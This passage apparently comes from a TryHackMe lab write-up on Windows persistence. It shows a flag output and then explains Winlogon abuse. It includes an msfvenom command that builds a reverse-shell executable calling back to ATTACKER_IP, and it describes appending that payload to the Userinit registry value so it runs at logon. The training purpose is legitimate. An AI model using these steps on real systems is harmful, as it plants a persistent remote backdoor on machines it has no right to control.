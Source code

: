Using your newly obtained shell, execute `C:\flags\flag11.exe` to get a flag!

Once we follow all steps, we will receive our shell, we need to strictly name the registry `MyBackdoor` for us to be able to read the flag:

![](gitbook/cybersecurity/images/Pasted%20image%2020250516113038.png)

```
C:\flags>.\flag11.exe
THM{LET_ME_HOLD_THE_DOOR_FOR_YOU}
```

### Winlogon

Another alternative to automatically start programs on logon is abusing Winlogon, the Windows component that loads your user profile right after authentication (amongst other things).

Winlogon uses some registry keys under `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\` that could be interesting to gain persistence:

* `Userinit` points to `userinit.exe`, which is in charge of restoring your user profile preferences.
* `shell` points to the system's shell, which is usually `explorer.exe`.

![Winlogon registry](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/f3c2215af6e3f2d19313498fca62a9d4.png)

If we'd replace any of the executables with some reverse shell, we would break the logon sequence, which isn't desired. Interestingly, you can append commands separated by a comma, and Winlogon will process them all.

Let's start by creating a shell:

```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4452 -f exe -o revshell.exe
```

We'll transfer the shell to our victim machine as we did previously. We can then copy the shell to any directory we like. In this case, we will use `C:\Windows`:

```shell-session
C:\> move revshell.exe C:\Windows
```

We then alter either `shell` or `Userinit` in `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\`. In this case we will use `Userinit`, but the procedure with `shell` is the same.

**Note:** While both `shell` and `Userinit` could be used to achieve persistence in a real-world scenario, to get the flag in this room, you will need to use `Userinit`.

![Backdoored userinit](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/dc5fa3e75ff056f11e16c03373799f45.png)

After doing this, sign out of your current session and log in again, and you should receive a shell (it will probably take around 10 seconds).

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/362875749378007cc447a2e47d476c9b.png)

Using your newly obtained shell, execute `C:\flags\flag12.exe` to get a flag!
